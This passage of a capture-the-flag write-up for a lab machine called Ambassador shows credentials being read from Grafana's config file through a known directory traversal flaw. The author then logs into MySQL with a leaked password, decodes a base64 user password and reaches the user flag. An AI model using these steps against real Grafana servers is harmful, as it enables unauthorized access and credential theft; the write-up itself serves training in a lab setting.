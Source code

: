 Important config file for grafana ([source](https://vk9-sec.com/grafana-8-3-0-directory-traversal-and-arbitrary-file-read-cve-2021-43798/)): `/etc/grafana/grafana.ini`

From the config file, we get the following credentials:

```
# default admin user, created on startup
;admin_user = admin

# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = messageInABottle685427
```

and grafana:root for db. :) 

I can succesfully login into grafana using the credentials.

interesting output from grafana's db:
```
sqlite> select * from data_source;
2|1|1|mysql|mysql.yaml|proxy||dontStandSoCloseToMe63221!|grafana|grafana|0|||0|{}|2022-09-01 22:43:03|2022-10-03 11:32:21|0|{}|1|uKewFgM4z
```

using this to access mysql db:
```sh
mysql -u grafana -pdontStandSoCloseToMe63221! -h 10.129.71.205
```

Getting the list of databases:

![](/assets/img/htb/ambassador/Ambassador-5.png)

found users creds in `whackywidget` :

![](/assets/img/htb/ambassador/Ambassador-6.png)

```
developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==
```

looks like base64 :p :

huhhh

![](/assets/img/htb/ambassador/Ambassador-7.png)

```
anEnglishManInNewYork027468
```

Finally:

![](/assets/img/htb/ambassador/Ambassador-8.png)

user flag is present at home/developer.

## Privilege Escalation

